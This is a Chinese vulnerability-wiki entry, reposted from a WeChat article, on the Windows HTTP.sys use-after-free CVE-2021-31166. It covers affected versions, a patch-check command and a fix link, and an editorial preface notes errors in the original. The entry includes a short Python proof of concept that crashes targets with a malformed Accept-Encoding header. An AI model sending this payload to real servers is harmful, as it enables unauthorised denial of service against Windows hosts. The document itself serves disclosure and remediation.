

# 漏洞描述 - CVE-2021-31166  POC

> 编号角色校订（2026-10-04）：按归档技术正文区分主讨论编号与背景引用，更新 `primary_identifiers` / `referenced_identifiers` 及旧字段角色。旧编号原值、状态与正文保持原样，变更前字段逐字保存在 `previous_*`；后文旧的角色待核说明应按当前字段阅读。这里的角色判读不等于官方分配核验或漏洞复现。

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Windows HTTP.sys31166
- 文献类型：技术文章（细分类待核）
- 版本、权限及部署边界：原文未给出可确认的版本、认证及部署边界；保留待核
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. Python全部粘一行不可执行
2. PoC展示DoS不是RCE证明，保留难以RCE边界
3. 触发为单Accept-Encoding多值与描述多个字段不同
4. systeminfo找三KB无结果不能证明未修复，累积替代补丁和enablement包需核
5. 仅HTTP服务不够要HTTP.sys路径可达
6. 保留19041.928实验和MSRC/研究者仓库

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文标注出处：<https://mp.weixin.qq.com/s/QrXLDPOs328rdzkzxu75wQ>

### 归档技术正文

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/QrXLDPOs328rdzkzxu75wQ)

  

### 漏洞名称 : HTTP 协议栈远程代码执行漏洞 CVE-2021-31166  

组件名称 : HTTP.sys

### 影响范围 :

Windows 10 Version 2004, 20H2

Windows Server version 2004, 20H2

漏洞类型 : 远程代码执行

### 利用条件

1、用户认证：否

2、前置条件：受害主机启用了 HTTP 服务

3、触发方式：远程

### 综合评价

<综合评定利用难度>：困难，在无需授权的情况下可以导致远程服务器拒绝服务，但是要实现代码执行比较困难。  
<综合评定威胁等级>：高危，在无需授权的情况下即可实现远程拒绝服务甚至可能可以导致远程代码执行。

组件介绍

超文本传输协议（HTTP）是一个用于传输超媒体文档（例如 HTML）的应用层协议。它是为 Web 浏览器与 Web 服务器之间的通信而设计的，Windows 上的 HTTP 协议栈用于 windows 上的 Web 服务器，例如 IIS 等，若该协议栈相关的组件存在漏洞，则可能导致远程恶意代码执行。

### 漏洞描述

该漏洞是由于 HTTP 协议栈相关组件在处理存在多个 Accept-Encoding 字段的 HTTP 请求时存在 Use-After-Free 的漏洞，攻击者可利用该漏洞在未授权的情况下，构造恶意数据执行远程代码执行攻击，最终获取服务器最高权限。

HTTP.sys 是 Windows 内核中最为重要的内核模块，是 Windows 上 HTTP 协议栈的底层网络驱动，该漏洞影响多个 Windows 版本

目前受影响的 HTTP.sys 版本：

Windows 10 Version 2004, 20H2  
Windows Server version 2004, 20H2

### 漏洞复现

搭建 Http 组件 10.0.19041.928 版本环境，复现该漏洞，效果如下：  



在这里插入图片描述  

https://github.com/0vercl0k/CVE-2021-31166

```
import requestsimport argparsedef main():    parser = argparse.ArgumentParser('Poc for CVE-2021-31166: remote UAF in HTTP.sys')    parser.add_argument('--target', required = True)    args = parser.parse_args()    r = requests.get(f'http://{args.target}/', headers = {        'Accept-Encoding': 'doar-e, ftw, imo, ,',    })    print(r)main()
```

打开 cmd.exe 输入

```
systeminfo | findstr "KB5003173 KB4562830 KB5000736"
```

```
若无结果返回则说明没有安装更新补丁。
```

### 修复建议

https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-31166

公众号

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
